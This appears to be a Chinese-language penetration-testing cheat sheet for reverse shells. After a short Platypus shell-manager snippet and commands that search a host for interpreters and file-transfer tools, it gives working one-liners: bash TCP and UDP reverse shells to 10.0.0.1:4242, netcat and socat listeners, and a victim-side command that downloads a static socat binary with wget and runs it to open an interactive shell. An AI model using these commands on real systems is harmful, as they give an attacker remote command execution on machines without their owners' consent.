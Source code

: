     ```bash
    ./Platypus

    list # 查看连接
    jump xxxx   # 跳到目标机器
    Interact    # 交互模式
    ```

**查看语言/代码支持情况**
```bash
find / -name perl*
find / -name python*
find / -name gcc*
find / -name cc
```

**查找可利用于传输文件的命令**
```bash
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp*
find / -name ftp
find / -name scp
```

## bash

- tcp

    ```bash
    bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

    0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
    ```

- udp

    ```bash
    Victim:
    sh -i >& /dev/udp/10.0.0.1/4242 0>&1

    Listener:
    nc -u -lvp 4242
    ```

## Socat

```bash
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```
```bash
user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```
